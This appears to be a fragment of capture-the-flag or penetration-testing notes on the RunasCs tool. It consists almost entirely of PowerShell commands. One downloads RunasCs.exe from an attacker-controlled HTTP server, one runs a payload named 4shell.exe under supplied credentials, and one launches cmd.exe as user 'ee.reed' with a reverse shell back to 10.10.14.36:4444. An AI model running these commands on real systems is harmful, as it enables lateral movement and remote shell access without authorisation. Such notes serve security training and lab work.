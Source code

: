 https://github.com/antonioCoco/RunasCs

```
Invoke-WebRequest -Uri http://10.10.14.47:8000/RunasCs.exe -OutFile RunasCs.exe

.\RunasCs.exe username "password" .\4shell.exe

.\RunasCS.exe ee.reed NewPasswordHere! cmd.exe -r 10.10.14.36:4444
```
